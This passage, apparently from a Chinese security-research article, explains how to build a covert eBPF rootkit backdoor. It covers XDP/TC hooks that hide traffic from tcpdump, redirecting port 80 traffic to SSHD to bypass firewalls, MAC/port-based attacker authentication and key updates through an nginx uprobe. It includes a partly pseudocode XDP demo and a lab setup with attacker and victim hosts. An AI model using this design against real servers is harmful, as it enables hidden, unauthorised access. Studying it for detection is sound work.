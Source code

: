 
前者最常用的场景就是做网络防火墙，用于网络流量清洗，效率比传统防火墙的高很多。后者常用于云原生场景下，容器、POD的网络监控、安全访问控制等。在这个例子中，要多进出流量都做调整，故两个hook点都需要有。同样，在XDP等阶段的hook，在这里做相关包逻辑处理，能更好的将通讯包隐藏，tcpdump等工具都抓不到。

  

**控制链路**

在后门场景里，可以在同样的位置，像eBPF的负载均衡一样，修改目标端口，从web nginx 的80改为SSHD的22，就可以实现网络数据的透传，绕开防火墙以及网络访问限制。

  

**认证密钥**

由于后门rootkit是在XDP\TC层工作，为了尽可能的简单，认证密钥最好只使用链路层、网络层、传输层的数据，即MAC信息、IP五元组之类。IP经常变动，MAC地址大概率是唯一的，以及设定一个固定的端口，这样更加唯一，作为rootkit的认证密钥即可实现。（需要client发起连接时，指定客户端的TCP端口）

  

**eBPF uprobe与eBPF map联动**

对于后门rootkit的密钥更新，利用eBPF也很好实现。比如，在nginx的场景中，uprobe实现hook http的函数，获取url参数中特定字符串，再将字符串保存到eBPF map里，就实现了密钥更新。

  

XDP/TC层的eBPF rootkit执行时，读取eBPF map里的密钥，进行比较运算。

  

**·** **实现流程**

举个XDP处理ingress的例子：

```
 1SEC("xdp/ingress") 2int xdp_ingress(struct xdp_md *ctx) { 3struct cursor c; 4struct pkt_ctx_t pkt; 5 6//判断是否为SSHD的协议，不是则直接放行 7if (!(不是SSHD协议(&c))) { 8return XDP_PASS; 9}1011//判断rootkit是否匹配，网卡信息与来源端口是否匹配12hack_mac[] = "读取bpf map配置。"13if(密钥不匹配) {14return XDP_PASS;15}1617// 读取map，是否已经存在该client信息18struct netinfo client_key = {};19__builtin_memcpy(&client_key.mac, &pkt.eth->h_source, ETH_ALEN);2021struct netinfo *client_value;22client_value = bpf_map_lookup_elem(&ingress_client, &client_key);2324// 如果没找到伪装信息，则自己组装25if(!client_value) {26__builtin_memset(&client_value, 0, sizeof(client_value));27} else {28bpf_map_update_elem(&ingress_client, &client_key, &client_value, BPF_ANY);29}303132// 伪装mac局域网mac信息33pkt.eth->h_source[0] = 0x00;34...3536// 替换伪装ip来源 ，客户端端口不变3738// 更改目标端口39pkt.tcp->dest = htons(FACK_PORT);    //224041//计算TCP SUM layer 442ipv4_csum(pkt.tcp, sizeof(struct tcphdr), &csum);43pkt.tcp->check = csum;4445//写入已伪装的map，用于TC处理egress的原mac、IP信息还原。46return XDP_PASS;47}
```

比较简单的demo，即可实现 ingtrss侧TCP数据包的伪装。同样，TC层处理egress方向的数据包时，只需要对伪装包的原始信息作还原即可。整个流程如下图：  

![](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

这样，rootkit的通讯链路并不影响正常用户访问，也没有对原系统做改动，隐蔽性特别好。

**·** **视频演示**

笔者准备了三台主机测试：

1. 入侵者：cnxct-mt2，IP为172.16.71.1。
    
2. 普通用户：ubuntu，IP为172.16.71.3。
    
3. 被入侵服务器：vm-ubuntu，IP为172.16.71.4。开放nginx web 80端口；开放SSHD 22端口，并设定iptables规则只允许内网IP访问。
    

  